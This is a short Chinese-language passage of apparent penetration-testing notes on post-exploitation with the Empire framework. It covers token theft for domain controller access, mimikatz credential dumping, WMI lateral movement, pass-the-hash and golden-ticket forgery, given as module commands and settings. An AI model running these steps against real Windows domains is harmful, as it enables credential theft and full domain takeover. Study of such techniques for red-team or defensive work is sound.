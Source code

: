 `获取系统权限`

命令token窃取 

窃取之后就有dc的访问权限

ps 查询进程是否有域内超级管理员

恢复原来身份可以用

revtoself

凭证获取

mimikatz

当前的权限为1 我们就可以用mimikatz 这个命令 获取明文 还有用户的一些凭证。

```
我们获取之后可以用一个creds命令 查询用户凭证信息
将获取到的凭证信息保存到一个文件中
```

**三种方法继续进行权限的提升**（基于凭证信息的获取）

1.usemodule use lateral_movement/invoke_wmi

```
填写的数据
Listener  
Credid creds中的id
ComputerName 电脑的名字
```

![image-20201119001928603](https://i.loli.net/2020/12/27/TIhagtmxqSWGYMV.png)

2. 制作pth

   pth + 获取·到的clientid 就可以制作假身份了哈哈。

3. 制作黄金

   credentials/mimikatz/lsadump 获取到krtbtgt 哈希

   credentials/mimikatz/golden_ticket

   set credid 4

   set user Administrator

   execute
   
# 四、会话管理

**重启之后，所有的会话都会被清理掉**

   spawn 进行派生会话

​    psinject 注入进程

`psinject 进程号 监听器`
